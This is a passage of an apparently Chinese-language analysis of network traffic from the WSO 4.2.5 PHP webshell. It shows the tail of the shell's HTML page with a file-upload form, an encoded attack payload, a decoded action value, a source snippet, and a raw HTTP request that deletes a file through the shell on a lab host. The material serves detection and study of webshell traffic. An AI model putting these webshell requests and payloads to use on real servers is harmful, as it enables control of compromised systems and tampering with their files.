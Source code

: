 			<span>Upload file:</span> <font color='#FFDB5F'>[ Writeable ]</font><br><input class='toolsInp' type=file name=f[]  multiple><input type=submit value='submit'></form><br  ></td>
		</tr></table></div>
		<!-- particles --> <div id='particles-js'></div><script src='http://cdn.jsdelivr.net/particles.js/2.0.0/particles.min.js'></script>
		<script>particlesJS('particles-js', {'particles':{'number':{'value':80,'density':{'enable':true,'value_area':800}},'color':{'value':'#ffffff'},'shape':{'type':'triangle','stroke':{'width':0,'color':'#000000'},'polygon':{'nb_sides':5},'image':{'src':'img/github.svg','width':100,'height':100}},'opacity':{'value':0.5,'random':true,'anim':{'enable':false,'speed':1,'opacity_min':0.1,'sync':false}},'size':{'value':3,'random':true,'anim':{'enable':false,'speed':40,'size_min':0.1,'sync':false}},'line_linked':{'enable':true,'distance':200,'color':'#ffffff','opacity':0.4,'width':1},'move':{'enable':true,'speed':1,'direction':'none','random':true,'straight':false,'out_mode':'out','bounce':false,'attract':{'enable':false,'rotateX':10000,'rotateY':10000}}},'interactivity':{'detect_on':'canvas','events':{'onhover':{'enable':true,'mode':'grab'},'onclick':{'enable':true,'mode':'repulse'},'resize':true},'modes':{'grab':{'distance':200,'line_linked':{'opacity':0.5}},'bubble':{'particles_nb':2}}},'retina_detect':true});</script>
		</body></html>

##### 4.2.1.2&emsp;数据包分析 #####
>数据包攻击载荷：<font color=red>a=CCk1RgMPC34XLVxV&c=FncDXTo%2BfAMqSQseLzIYGDtxaEkDAyFPOD01QDsUaEYDNQBdFDUAQy4TC0oWdz1POy59DQ%3D%3D&p1=&p2=&p3=&charset=UTF-8</font>

>请求数据包具体分析如4.1.2分析操作相同，通过解密函数得到a="FilesMan",c="/var/www/html/webshell-master/php/wso/",通过对wso4.2.5源码进行分析：

	if( empty($_POST['a']) )
		if(isset($▚) && function_exists('action' . $▚))
			$_POST['a'] = $▚;
		else
			$_POST['a'] = 'FilesMan';
>action的默认值为"FilesMan"。

>响应包内容分析：该操作响应包返回依然为整个html页面。

>具体信息如图4.2.1.1所示：<br>![wso_shell]({{ site.baseurl }}/images/wso_shell/Files.png)<br><center>图4.2.1.1</center>

#### 4.2.2&emsp;文件基本操作（文件的增删改查） ####
&emsp;&emsp;&emsp;从Files一级菜单或者webshell的底下操作栏中对单个文件进行增删改查等操作。
##### 4.2.2.1&emsp;数据包内容 #####
(删除文件操作)
**请求数据包**
<br>

	POST /webshell-master/php/wso/wso-4.2.5.php HTTP/1.1
	Host: 192.168.182.143
	Connection: keep-alive
	Content-Length: 115
	Cache-Control: max-age=0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	Origin: http://192.168.182.143
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.102 Safari/537.36
	Content-Type: application/x-www-form-urlencoded
	Referer: http://192.168.182.143/webshell-master/php/wso/wso-4.2.5.php
	Accept-Encoding: gzip, deflate
	Accept-Language: zh-CN,zh;q=0.8
	Cookie: da94407ecf64bda7c0ac6ea1fa4477d8stderr_to_out=1; da94407ecf64bda7c0ac6ea1fa4477d8key=d69aa478a72ecd3a99c77af6fcf6b917; da94407ecf64bda7c0ac6ea1fa4477d8=21232f297a57a5a743894a0e4a801fc3; da94407ecf64bda7c0ac6ea1fa4477d8ajax=0; PHPSESSID=mh6l96lmrd0so2isi315c3loi4
	